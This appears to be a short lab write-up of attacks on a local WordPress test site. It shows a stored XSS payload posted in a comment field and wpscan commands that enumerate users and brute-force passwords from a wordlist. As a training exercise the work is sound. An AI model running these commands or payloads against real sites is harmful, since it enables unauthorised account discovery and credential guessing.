I have tried 3 types of attacks namely XSS, User Enumeration and Password Enumeration. I have attached the gif files of my performing sample attacks.

1)In the XSS attack I used "svg onload=alert(1)" in the comment section of the website
  
  <img src="XSS.gif" width="800">
  
2)In the username enumeration attack I used 
  "wpscan --url http://192.168.33.10 --api-token YOUR_TOKEN -e u vp" 
  in the terminal of my Kali machine to find a list of users on the website and saved it in the usernames.txt file.
  
  <img src="Username_enum.gif" width="800">
  
3)In the password enumeration attack I hvae created a password.txt file and stored a list of sample passwords in that file. 
  Finally I have performed the following command to find out passwords of the users: 
  wpscan --url http://192.168.33.10 --api-token YOUR_TOKEN --usernames username.txt --passwords password.txt

<img src="password_enum.gif" width="800">
